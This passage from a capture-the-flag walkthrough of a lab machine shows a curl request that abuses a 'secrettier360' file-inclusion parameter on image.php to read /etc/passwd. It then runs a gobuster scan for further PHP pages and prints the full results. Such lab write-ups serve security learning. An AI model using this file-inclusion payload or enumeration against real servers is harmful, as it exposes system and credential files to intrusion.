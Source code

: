 ```curl http://192.168.20.149/image.php?secrettier360=/etc/passwd```
Here is another hint, secrettier360 parameter should be used on another php
page.

### Gobuster (Enumeration for Additional PHP Pages)

root\@kali:\~\# gobuster dir -u http://192.168.20.149/ -w
/usr/share/wordlists/dirb/common.txt -x .php

===============================================================

Gobuster v3.0.1

by OJ Reeves (\@TheColonial) & Christian Mehlmauer (\@_FireFart_)

===============================================================

[+] Url: http://192.168.20.149/

[+] Threads: 10

[+] Wordlist: /usr/share/wordlists/dirb/common.txt

[+] Status codes: 200,204,301,302,307,401,403

[+] User Agent: gobuster/3.0.1

[+] Extensions: php

[+] Timeout: 10s

===============================================================

2019/09/09 18:16:51 Starting gobuster

===============================================================

/.htpasswd (Status: 403)

/.htpasswd.php (Status: 403)

/.htaccess (Status: 403)

/.htaccess.php (Status: 403)

/.hta (Status: 403)

/.hta.php (Status: 403)

/dev (Status: 200)

/image.php (Status: 200)

/index.php (Status: 200)

/index.php (Status: 200)

/javascript (Status: 301)

/server-status (Status: 403)

/wordpress (Status: 301)

===============================================================
```